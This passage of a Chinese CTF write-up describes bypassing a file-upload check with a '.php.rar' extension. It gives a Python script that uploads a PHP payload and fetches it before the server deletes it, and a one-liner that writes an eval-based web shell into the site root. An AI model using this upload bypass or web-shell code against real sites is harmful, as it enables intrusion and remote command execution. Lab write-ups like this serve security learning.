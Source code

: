   于是使用BurpSuite截获上传请求，在上传内容中加入一句话并且尝试更改上传文件后缀，发现xxx.php.rar后缀可以上传成功。但是上传的文件很快就会被删除，因此写脚本实现渗透。

  ```
  import requests
  import random
  import string

  url = 'http://10.1.213.86/'
  headers = {
  	'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryzJSSZAev8NCPwfPj',
  	'Referer': 'http://10.1.213.86/'
  }

  data_raw = '''
  ------WebKitFormBoundaryzJSSZAev8NCPwfPj
  Content-Disposition: form-data; name="file"; filename="%s.php.rar"
  Content-Type: application/octet-stream

  <?php system("phpinfo()");?>
  ------WebKitFormBoundaryzJSSZAev8NCPwfPj
  Content-Disposition: form-data; name="submit"

  Submit
  ------WebKitFormBoundaryzJSSZAev8NCPwfPj--
  '''

  data = data_raw %''.join(random.sample(string.ascii_letters + string.digits,8))
  r = requests.post(url=url,headers=headers,data=data)
  url_upload = url + r.content[-55:-8].decode('utf-8')
  r_result = requests.get(url_upload)
  print(r_result.content)
  ```

  最后修改上传内容一步步的找到FLAG所在文件，拿到FLAG.

  ![想要上传个文件真的好难2.png](imgs/想要上传个文件真的好难2.png)  

  PS:这个题目也有另外思路，因为上传的文件路径会被删除，因此考虑把上传的内容修改为在网站根目录写入一句话文件。

  `<?php $fp=fopen("../ma.php","w+");fputs($fp,"<? eval($_POST[cmd];?>");?>`

3. 有趣的脚本

  ![有趣的脚本1.png](imgs/有趣的脚本1.png)  
